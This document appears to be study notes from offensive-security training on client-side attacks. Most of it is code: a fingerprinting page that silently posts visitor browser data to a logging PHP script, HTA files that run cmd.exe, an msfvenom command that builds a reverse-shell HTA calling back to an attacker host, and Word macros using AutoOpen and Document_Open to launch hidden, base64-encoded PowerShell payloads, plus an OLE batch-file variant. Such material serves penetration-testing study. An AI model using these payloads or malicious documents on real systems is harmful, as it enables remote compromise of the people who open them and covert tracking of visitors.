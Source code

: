
# Client Side Attack

### Install Fingerprintjs2 JavaScript library

```
kali@kali:/var/www/html$ sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip

kali@kali:/var/www/html$ sudo unzip master.zip

kali@kali:/var/www/html$ sudo mv fingerprintjs2-master/ fp

```

### Index.html

```
kali@kali:/var/www/html/fp$ cat index.html <!doctype html>
<html>
<head>
<title>Fingerprintjs2 test</title> </head>
<body> <h1>Fingerprintjs2</h1>
<p>Your browser fingerprint: <strong id="fp"></strong></p> <p><code id="time"/></p>
<p><span id="details"/></p>
<script src="fingerprint2.js"></script>
<script>
var d1 = new Date();
var options = {};
Fingerprint2.get(options, function (components) {
var values = components.map(function (component) { return component.value }) var murmur = Fingerprint2.x64hash128(values.join(''), 31)
var d2 = new Date();
var timeString = "Time to calculate the fingerprint: " + (d2 - d1) + "ms"; var details = "<strong>Detailed information: </strong><br />";
if(typeof window.console !== "undefined") {
for (var index in components) { var obj = components[index]; var value = obj.value;
if (value !== null) {
var line = obj.key + " = " + value.toString().substr(0, 150); details += line + "<br />";
}
}
}
document.querySelector("#details").innerHTML = details document.querySelector("#fp").textContent = murmur document.querySelector("#time").textContent = timeString
      });
  </script>
</body>
</html>
```

### Updated fp collection script

```
<!doctype html>
<html>
<head>
<title>Blank Page</title> </head>
<body>
<h1>You have been given the finger!</h1> <script src="fingerprint2.js"></script> <script>
var d1 = new Date();
var options = {};
Fingerprint2.get(options, function (components) {
var values = components.map(function (component) { return component.value }) var murmur = Fingerprint2.x64hash128(values.join(''), 31)
var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
var d2 = new Date();
var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
var details = "Detailed information: \n"; if(typeof window.console !== "undefined") {
for (var index in components) { var obj = components[index]; var value = obj.value;
if (value !== null) {
var line = obj.key + " = " + value.toString().substr(0, 150); details += line + "\n";
}
} }
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", "/fp/js.php"); xmlhttp.setRequestHeader("Content-Type", "application/txt"); xmlhttp.send(clientfp + timeString + details);
      });
  </script>
</body>
</html>
```


### Content of /fp/js.php

```
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n"; file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

### Update permission

```
kali@kali:/var/www/html$ sudo chown www-data:www-data fp
```

### Exploring HTML Application

poc.hta

```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
Updated File

```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

### Shell Code Generation
```
kali@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

### Microsoft Word Macro

#### Macro opening cmd.exe

```
Sub MyMacro() 
CreateObject("Wscript.Shell").Run "cmd"
End Sub
```
Since Office macros are not executed automatically, we must make use of two predefined procedures, namely the AutoOpen procedure, which is executed when a new document is opened and the Document_Open355 procedure, which is executed when an already-open document is re- opened. Both of these procedures can call our custom procedure and therefore run our code.

```
Sub AutoOpen() 
 MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro() 
 CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

#### Macro with shell code

```
Sub AutoOpen() 
    MyMacro
End Sub

Sub Document_Open() 
    MyMacro
End Sub

Sub MyMacro()
Dim Str As String
Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A" Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg" Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY" Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB" ...
Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac" Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB" Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA" Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA" Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK" Str = Str + "QA="
CreateObject("Wscript.Shell").Run Str 
End Sub
```
### MS Document Abuse

we can still leverage Object Linking and Embedding (OLE)360 to abuse Microsoft Office’s document-embedding feature

content of launch.bat
```
START cmd.exe
```

Replace cmd.exe with shell code

```
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

Bypass protected view using Microsoft Publisher




